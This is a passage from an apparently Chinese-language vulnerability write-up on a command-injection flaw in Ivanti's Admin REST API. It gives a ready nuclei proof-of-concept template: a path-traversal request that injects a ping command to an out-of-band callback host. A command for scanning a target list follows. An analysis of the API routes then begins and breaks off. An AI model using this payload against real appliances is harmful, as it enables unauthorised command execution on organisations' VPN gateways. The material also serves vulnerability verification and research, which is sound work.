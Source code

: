 # 0x03 漏洞验证和利用

这里使用 nuclei 进行验证，使用的模板如下：

```bash
id: poc
info:
  name: 直接发包命令注入
  author: xxx
  severity: high
  description: 直接发包命令注入，影响范围比较大
http:
- raw:
  - |
    GET /api/v1/totp/user-backup-code/../../license/keys-status/%3bping%20{{interactsh-url}}%3b HTTP/1.1
    Host: {{Hostname}}
    User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2224.3 Safari/537.36
    Connection: close
    Accept-Encoding: gzip, deflate
  unsafe: false
  cookie-reuse: false
  matchers-condition: or
  matchers:
  - type: word
    part: interactsh_protocol
    words:
    - dns
    condition: or
```

```bash
nuclei.exe -t .\poc.yaml -p http://127.0.0.1:8088 -iserver a.com -itoken token11 -l .\targets.txt
```

# 0x04 漏洞分析

在 Ivanti 的公告中提到，在修复之后 Admin REST APIs 将会减少，因而就从此入手分析

在`restservice/api/init.py` 文件当中，找到 rest apis 的路由：

```bash
...
api.add_resource(
    Userrecordsynchronization,
    "/api/v1/system/user-record-synchronization",
    "/api/v1/system/user-record-synchronization/database/export",
    "/api/v1/system/user-record-synchronization/database/import",
    "/api/v1/system/user-record-synchronization/database/delete",
    "/api/v1/system/user-record-synchronization/database/retrieve-stats",
)
api.add_resource(
    WebProfile, "/api/v1/system/resource-profiles/web-profile/<path:applet_name>"
)
api.add_resource(
    ActiveSyncDevices,
    "/api/v1/system/status/active-sync-devices/<path:active_sync_session_id>",
    "/api/v1/system/status/active-sync-devices/<path:active_sync_session_id>/allow-access",
    "/api/v1/system/status/active-sync-devices/<path:active_sync_session_id>/block-access",
    "/api/v1/system/status/active-sync-devices",
)
api.add_resource(
    AwsAzureTestConnection,
```